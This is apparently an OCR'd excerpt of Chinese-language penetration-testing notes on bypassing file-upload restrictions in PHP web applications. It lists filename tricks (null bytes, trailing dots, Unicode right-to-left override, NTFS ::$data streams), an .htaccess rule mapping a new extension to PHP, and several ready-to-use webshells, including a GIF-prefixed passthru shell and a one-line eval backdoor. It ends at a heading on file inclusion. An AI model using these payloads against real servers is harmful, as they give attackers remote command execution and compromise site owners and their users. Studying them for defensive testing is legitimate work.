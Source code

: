 - 空字节截断

```
.php%00.gif
```

- 添加特殊字符

```
file.php......
file.php%20
file.php%0d%0a.jpg
file.php%0a
name.%E2%80%AEphp.jpg # name.gpj.php
file.php/
file.php/.
```

- NTFS备用数据流（将冒号插入 禁止的扩展名之后 或 允许的扩展名之前）

```
file.php::$data
```

- Apache配置文件 `.htaccess`

```
AddType application/x-httpd-php .rce
```

- 上传图片马结合文件包含漏洞利用

```php
GIF8;
<?php echo "\n";passthru($_GET['c']." 2>&1"); ?>
```

- 一句话木马

```php
<?php @eval($_POST['c']); ?>
```

- 短标签

```
<?=phpinfo();>
```

- 函数作为参数 `?0=assert`

```php
<?php $_GET[0]($_POST[c]); ?>
```

- 文件名使用数组形式传递

- 条件竞争


## 文件包含
